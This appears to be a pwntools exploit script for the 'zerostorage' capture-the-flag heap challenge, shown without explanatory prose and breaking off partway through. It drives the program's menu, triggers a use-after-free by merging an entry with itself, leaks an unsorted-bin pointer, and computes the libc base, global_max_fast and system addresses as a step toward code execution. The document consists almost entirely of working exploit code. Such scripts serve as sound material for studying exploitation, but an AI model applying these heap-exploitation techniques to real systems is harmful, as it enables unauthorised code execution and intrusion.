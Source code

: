 ```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

target = process("./zerostorage")
gdb.attach(target)
raw_input("Begin...")

libc_bin = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

def insert(size, data):
    target.recvuntil("Your choice: ")
    target.sendline("1")
    target.recvuntil("Length of new entry: ")
    target.sendline(str(size))
    target.recvuntil("Enter your data: ")
    target.sendline(data)

def merge(index1, index2):
    target.recvuntil("Your choice: ")
    target.sendline("3")
    target.recvuntil("Merge from Entry ID: ")
    target.sendline(str(index1))
    target.recvuntil("Merge to Entry ID: ")
    target.sendline(str(index2))

def view(index):
    target.recvuntil("Your choice: ")
    target.sendline("5")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))
    target.recvline()

def edit(index, size, data):
    target.recvuntil("Your choice: ")
    target.sendline("2")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))
    target.recvuntil("Length of entry: ")
    target.sendline(str(size))
    target.recvuntil("Enter your data: ")
    target.sendline(data)

def delete(index):
    target.recvuntil("Your choice: ")
    target.sendline("4")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))

# Create two chunks, must prevent consolidate into forest
insert(0x20, "A" * 0x1f)    # 0
insert(0xfc, "B" * 0xfb)    # 1

# Merge 0 chunk with itself, use after free
merge(0, 0)                 # 2

# View chunk 2 to view unsorted bin ptr
view(2)

leak = u64(target.recv(8))
libc = leak - 0x3c4b78
global_max_fast = libc + 0x3c67f8
system = libc + libc_bin.symbols['system']
```